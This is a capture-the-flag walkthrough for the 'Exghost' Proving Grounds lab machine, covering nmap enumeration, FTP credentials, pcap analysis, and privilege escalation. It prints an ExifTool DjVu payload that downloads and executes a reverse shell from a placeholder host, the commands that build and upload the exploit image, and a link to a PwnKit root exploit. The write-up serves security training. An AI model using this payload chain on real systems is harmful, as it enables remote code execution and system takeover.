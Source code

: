 # Exghost

## Introduction

Exghost is a 'warm up' category linux machine from offsec proving grounds.  

## Enumeration

### Nmap

Nmap scan of all tcp ports.  

```
20/tcp closed ftp-data reset ttl 61
21/tcp open   ftp      syn-ack ttl 61 vsftpd 3.0.3
80/tcp open   http     syn-ack ttl 61 Apache httpd 2.4.41
```

## FTP

Login credentials found.  

```
username: user
password: system
```

A file 'backup' is found and transfered.  

## PCAP

The following file is found from the backup pcap file.  

`exiftest.php`

In the http stream, there is a POST multipart form request to exiftest.php.  

```http
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <!-- Part from this tutorial -->
    <form method="post" action="exiftest.php" enctype="multipart/form-data">
        <input type="file" name="myFile" />
        <input type="submit" value="Upload">
    </form>
    <!-- End of part from this tutorial -->
</body>
</html>
```

## User shell

Using a vuln in the exiftool, a rev shell is returned.  


Payload file.  

	
`(metadata "\c${system('curl <ip>/shell.elf && chmod 777 /tmp/shell.elf && /tmp/shell.elf')};")`


Commands.

```
sudo apt install djvulibre-bin

bzz payload payload.bzz

djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

exiftool -config configfile '-HasselbladExif<=exploit.djvu' hacker.jpg

curl -s -F myFile=@hacker.jpg http://192.168.214.183/exiftest.php

```

## Root

The following kernel exploit (CVE-2021-4034) spawns a root shell.  

`https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py` 
